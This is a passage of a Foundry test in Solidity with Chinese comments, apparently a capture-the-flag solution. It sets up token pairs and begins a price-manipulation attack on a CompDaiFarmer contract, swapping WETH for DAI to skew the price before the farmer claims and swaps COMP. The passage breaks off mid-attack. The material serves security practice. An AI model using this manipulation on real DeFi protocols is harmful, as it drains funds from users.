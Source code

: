 ```solidity
        dai.approve(address(level), type(uint256).max);
        weth.approve(address(level), type(uint256).max);

        // 创建两个币对池子并添加流动性
        // Comp => WETH:  5:5
        pair_compweth = IPair(u_factory.createPair(address(comp), address(weth)));
        vm.label(address(pair_compweth), "pair_compweth");
        weth.deposit{value: 5 ether}();
        comp.transfer(address(pair_compweth), 5 ether);
        weth.transfer(address(pair_compweth), 5 ether);
        pair_compweth.mint(address(this));

        // WETH => DAI:  5:5
        pair_wethdai = IPair(u_factory.createPair(address(weth), address(dai)));
        vm.label(address(pair_wethdai), "pair_wethdai");
        weth.deposit{value: 5 ether}();
        weth.transfer(address(pair_wethdai), 5 ether);
        dai.transfer(address(pair_wethdai), 5 ether);
        pair_wethdai.mint(address(this));

        //////////////////初始化题目系统//////////////////////////

        level = new Setup{value: 50 ether}(address(comp), address(dai), address(0), address(u_router), address(weth));

    }

    function test_isComplete() public{
        // 我们用 0x5B38Da6a701c568545dCfcB03FcB875f56beddC4 进行攻击
        payable(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4).transfer(2 ether);
        vm.startBroadcast(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4);

        // 将 1ETH存入，换成 1WETH，用于swap，不能太少，否则swap不了
        weth.deposit{value: 1 ether}();
        CompDaiFarmer farmer = level.farmer();

        // 为swap做准备
        weth.approve(address(farmer), type(uint256).max);
        weth.approve(address(u_router), type(uint256).max);
        comp.approve(address(farmer), type(uint256).max);
        comp.approve(address(u_router), type(uint256).max);

        // swap: WETH => DAI, 抬高DAI价格
        address[] memory path = new address[](2);
        path[0] = address(weth);
        path[1] = address(dai);

        // 虽然我们是用0x5B38Da6a701c568545dCfcB03FcB875f56beddC4进行调用，
        // 但是在foundry的Broadcast中，msg.sender不是0x5B38Da6a701c568545dCfcB03FcB875f56beddC4，
        // 因此这里不能写msg.sender，而要硬编码自己的地址
        uint256 bal = weth.balanceOf(address(0x5B38Da6a701c568545dCfcB03FcB875f56beddC4));

        u_router.swapExactTokensForTokens(
            bal,
            0, 
            path,
            address(this), 
            type(uint256).max
        );

        // farmer拿走faucet的COMP
        farmer.claim();
        // farmer将本合约中的所有COMP换成DAI
```